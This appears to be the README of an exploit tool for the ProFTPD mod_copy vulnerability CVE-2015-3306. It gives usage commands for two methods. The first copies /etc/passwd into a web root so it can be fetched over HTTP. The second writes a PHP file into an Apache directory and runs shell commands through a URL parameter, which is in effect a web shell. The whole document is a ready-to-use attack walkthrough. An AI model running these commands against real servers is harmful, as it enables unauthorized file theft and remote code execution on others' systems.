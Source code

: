 # cpx_proftpd

Tool coded by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow

###METHOD 1:

usage: 

```
python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>
```

ex:

```
python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt
```

then try:

```
http://127.0.0.1/pass.txt
```

###METHOD 2:


usage: 

```
python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>
```

ex:

```
python cpx_proftp.py 2 127.0.0.1 /var/www/html
```

then try:

```
http://127.0.0.1/xxx.php?img=ls
```
